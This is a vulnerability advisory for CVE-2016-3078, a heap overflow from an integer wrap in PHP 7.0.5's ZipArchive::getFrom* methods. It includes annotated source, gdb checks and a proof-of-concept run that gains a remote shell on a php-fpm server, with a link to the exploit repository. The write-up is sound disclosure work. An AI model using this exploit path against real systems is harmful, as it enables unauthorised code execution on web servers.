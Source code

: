 #+title: CVE-2016-3078: php: integer overflow in ZipArchive::getFrom*
#+author: Hans Jerry Illikainen
#+email: hji@dyntopia.com

* Details

An integer wrap may occur in PHP 7.x before version 7.0.6 when reading
zip files with the getFromIndex() and getFromName() methods of
ZipArchive, resulting in a heap overflow.

php-7.0.5/ext/zip/php_zip.c
#+begin_src c
2679 static void php_zip_get_from(INTERNAL_FUNCTION_PARAMETERS, int type) /* {{{ */
2680 {
....
2684     struct zip_stat sb;
....
2689     zend_long len = 0;
....
2692     zend_string *buffer;
....
2702     if (type == 1) {
2703         if (zend_parse_parameters(ZEND_NUM_ARGS(), "P|ll", &filename, &len, &flags) == FAILURE) {
2704             return;
2705         }
2706         PHP_ZIP_STAT_PATH(intern, ZSTR_VAL(filename), ZSTR_LEN(filename), flags, sb);  // (ref:1)
2707     } else {
2708         if (zend_parse_parameters(ZEND_NUM_ARGS(), "l|ll", &index, &len, &flags) == FAILURE) {
2709             return;
2710         }
2711         PHP_ZIP_STAT_INDEX(intern, index, 0, sb);                                      // (ref:1)
2712     }
....
2718     if (len < 1) {
2719         len = sb.size;
2720     }
....
2731     buffer = zend_string_alloc(len, 0);                                                // (ref:2)
2732     n = zip_fread(zf, ZSTR_VAL(buffer), ZSTR_LEN(buffer));                             // (ref:3)
....
2742 }
#+end_src

With ~sb.size~ from ([[(1)]]) being:

php-7.0.5/ext/zip/lib/zip_stat_index.c
#+begin_src c
038 ZIP_EXTERN int
039 zip_stat_index(zip_t *za, zip_uint64_t index, zip_flags_t flags,
040                zip_stat_t *st)
041 {
...
043     zip_dirent_t *de;
044
045     if ((de=_zip_get_dirent(za, index, flags, NULL)) == NULL)
046         return -1;
...
063         st->size = de->uncomp_size;
...
086 }
#+end_src

Both ~size~ and ~uncomp_size~ are unsigned 64bit integers:

php-7.0.5/ext/zip/lib/zipint.h
#+begin_src c
339 struct zip_dirent {
...
351     zip_uint64_t uncomp_size;        /* (cl) size of uncompressed data */
...
332 };
#+end_src

php-7.0.5/ext/zip/lib/zip.h
#+begin_src c
279 struct zip_stat {
...
283     zip_uint64_t size;            /* size of file (uncompressed) */
...
290 };
#+end_src

Whereas ~len~ is signed and has a platform-dependent size:

php-7.0.5/Zend/zend_long.h
#+begin_src c
028 #if defined(__x86_64__) || defined(__LP64__) || defined(_LP64) || defined(_WIN64)
029 # define ZEND_ENABLE_ZVAL_LONG64 1
030 #endif
...
033 #ifdef ZEND_ENABLE_ZVAL_LONG64
034 typedef int64_t zend_long;
...
043 #else
044 typedef int32_t zend_long;
...
053 #endif
#+end_src

Uncompressed file sizes in zip-archives may be specified as either 32-
or 64bit values; with the latter requiring that the size be specified in
the extra field in zip64 mode.

Anyway, as for the invocation of ~zend_string_alloc()~ in ([[(2)]]):

php-7.0.5/Zend/zend_string.h
#+begin_src c
119 static zend_always_inline zend_string *zend_string_alloc(size_t len, int persistent)
120 {
121     zend_string *ret = (zend_string *)pemalloc(ZEND_MM_ALIGNED_SIZE(_ZSTR_STRUCT_SIZE(len)), persistent); // (ref:4)
...
133     ZSTR_LEN(ret) = len;                                                                                  // (ref:5)
134     return ret;
135 }
#+end_src

The ~size~ argument to the ~pemalloc~ macro is aligned/adjusted in ([[(4)]])
whilst the *original* value of ~len~ is stored as the size of the
allocated buffer in ([[(5)]]).  No boundary checking is done in ([[(4)]]) and it
may thus wrap, which would lead to a heap overflow during the invocation
of ~zip_fread()~ in ([[(3)]]) as the ~toread~ argument is ~ZSTR_LEN(buffer)~:

php-7.0.5/Zend/zend_string.h
#+begin_src c
041 #define ZSTR_LEN(zstr)  (zstr)->len
#+end_src

On a 32bit system:

#+begin_src sh
(gdb) p/x ZEND_MM_ALIGNED_SIZE(_ZSTR_STRUCT_SIZE(0xfffffffe))
$1 = 0x10
#+end_src

The wraparound may also occur on 64bit systems with ~uncomp_size~
specified in the extra field (Zip64 mode; ext/zip/lib/zip_dirent.c:463).
However, it won't result in a buffer overflow because of ~zip_fread()~
bailing on a size that would have wrapped the allocation in ([[(4)]]):

php-7.0.5/ext/zip/lib/zip_fread.c
#+begin_src c
038 ZIP_EXTERN zip_int64_t
039 zip_fread(zip_file_t *zf, void *outbuf, zip_uint64_t toread)
040 {
...
049     if (toread > ZIP_INT64_MAX) {
050         zip_error_set(&zf->error, ZIP_ER_INVAL, 0);
051         return -1;
052     }
...
063 }
#+end_src

php-7.0.5/ext/zip/lib/zipconf.h
#+begin_src c
130 #define ZIP_INT64_MAX     0x7fffffffffffffffLL
#+end_src

#+begin_src sh
(gdb) p/x ZEND_MM_ALIGNED_SIZE(_ZSTR_STRUCT_SIZE(0x7fffffffffffffff))
$1 = 0x8000000000000018
#+end_src


* PoC

Against Arch Linux i686 with php-fpm 7.0.5 behind nginx [1]:

#+begin_src sh
$ python exploit.py --bind-port 5555 http://1.2.3.4/upload.php
[*] this may take a while
[*] 103 of 4096 (0x67fd0)...
[+] connected to 1.2.3.4:5555

id
uid=33(http) gid=33(http) groups=33(http)

uname -a
Linux arch32 4.5.1-1-ARCH #1 SMP PREEMPT Thu Apr 14 19:36:01 CEST
2016 i686 GNU/Linux

pacman -Qs php-fpm
local/php-fpm 7.0.5-2
    FastCGI Process Manager for PHP

cat upload.php
<?php
$zip = new ZipArchive();
if ($zip->open($_FILES["file"]["tmp_name"]) !== TRUE) {
    echo "cannot open archive\n";
} else {
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $data = $zip->getFromIndex($i);
    }
    $zip->close();
}
?>
#+end_src


* Solution

This issue has been fixed in php 7.0.6.


* Footnotes

[1] https://github.com/dyntopia/exploits/tree/master/CVE-2016-3078

